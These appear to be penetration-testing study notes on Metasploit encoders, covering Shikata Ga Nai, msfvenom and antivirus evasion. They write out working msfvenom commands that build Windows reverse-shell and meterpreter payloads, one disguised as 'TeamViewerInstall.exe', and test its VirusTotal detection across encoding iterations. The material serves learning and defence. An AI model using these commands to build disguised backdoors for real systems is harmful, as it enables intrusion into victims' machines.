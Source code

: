 

## Purpose of Encoders

- Make payloads **compatible** with different architectures: `x64`, `x86`, `sparc`, `ppc`, `mips`.
    
- Remove **bad characters** (e.g., `\x00`).
    
- Historically used to **evade antivirus detection** (less effective today).
    

---

## AV Evasion History

- **Shikata Ga Nai (SGN)**
    
    - XOR-based polymorphic encoder.
        
    - Name means "It cannot be helped".
        
    - Previously dominant for AV evasion.
        
    - Modern AV easily detects SGN → **not reliable anymore**.
        

---

## Legacy vs Modern Tools

**Pre-2015 (Legacy):**

```
msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | \
msfencode -b '\x00' -f perl -e x86/shikata_ga_nai
```

**Modern (msfvenom):**

- Combines `msfpayload` and `msfencode`.
    

**Without encoder:**

```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp \
LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

**With encoder:**

```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp \
LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

---

## Selecting Encoders in Metasploit

```
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > show encoders
```

**Example output:**

```
0  generic/eicar
1  generic/none
2  x64/xor
3  x64/xor_dynamic
4  x64/zutto_dekiru
```

---

## Architecture-Based Filtering

- Encoders available depend on the **payload architecture**.
    
- Example with older exploits (e.g., MS09-050):
    
    - Lists more x86 options: `x86/shikata_ga_nai`, `x86/alpha_upper`, etc.
        

---

## Real-World Encoding Impact

**Single SGN iteration:**

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp \
LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o TeamViewerInstall.exe
```

- VirusTotal: **54/69 detections** → Poor evasion.
    

---

## Multi-Iteration Encoding

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp \
LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -i 10 -f exe -o TeamViewerInstall.exe
```

- Payload size: ~611 bytes
    
- VirusTotal: **52/65 detections** → Slight improvement but still ineffective.
    

---

## VirusTotal API Integration

**Command:**

```
msf-virustotal -k <API_KEY> -f TeamViewerInstall.exe
```

- Requires **VirusTotal API key**.
    
- Useful for quick detection checks.
    

---

## Summary

|Feature|Description|
|---|---|
|**Purpose**|Compatibility and (formerly) AV evasion|
|**Legacy Tools**|`msfpayload` + `msfencode` (deprecated)|
|**Modern Tool**|`msfvenom` (current standard)|
|**Common Encoder**|`x86/shikata_ga_nai` (polymorphic XOR)|
|**Effectiveness**|Limited AV evasion with modern defenses|
|**Extra**|Use `-i` for multiple iterations; slight improvement only|